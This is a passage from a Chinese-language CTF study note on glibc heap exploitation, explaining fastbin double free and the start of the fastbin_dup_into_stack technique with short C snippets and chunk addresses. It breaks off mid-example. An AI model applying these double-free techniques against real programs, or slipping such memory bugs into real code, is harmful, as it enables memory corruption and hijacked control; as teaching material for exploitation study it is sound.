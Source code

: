 ```
free(b);
free(a);
```

这样一来, free list 中会被依次在头部插入 chunk2 和 chunk1, 程序就不会崩溃, 此时 a 就被 double free 了, 此时的 free list 长这样:

```
|free_list| -> |chunk1| -> |chunk2| -> |chunk1|
                               ↑______________|
```

现在我们使用 calloc 再次申请 buffer

```c
	a = calloc(1, 8);  // 0x5627dd491360
	b = calloc(1, 8);  // 0x5627dd491380
	c = calloc(1, 8);  // 0x5627dd491360
```

申请空间时, calloc 会依次从 free list 的头部取出以"free"的 chunk 并返回. 因此 a 和 c 指向的地址空间是同一个地址空间的.  
下面我们使用此原理欺骗 malloc 来返回一个我们可控的区域的指针

### 6.2 fastbin_dup_into_stack

这个例子将演示如何利用 double-free 和 fastbin-attack 将 malloc 指针劫持到栈上  
首先在栈上声明一个字长 8 位的变量, 例子中使用了`unsigned long long`类型, 并使用 malloc 申请三个 chunk

```c
    unsigned long long stack_var; // 0x7fffffffda58 in stack
    int *a = malloc(8);  // chunk1 0x555555757260
    int *b = malloc(8);  // chunk2 0x555555757280
    int *c = malloc(8);  // chunk3 0x5555557572a0
```

再依次 free chunk1,chunk2,chunk1:

```c
    free(a);
    free(b);
    free(a);
```

此时的 fastbin 如下所示:  
![](/CTF/v_images/20201216110657908_911315273.png)
这时如果我们申请一个大小为 8 的 chunk, 那么该 chunk 的地址与先前 free 的 chunk1 地址相同

```
    unsigned long long *d = malloc(8); // 0x555555757260
```
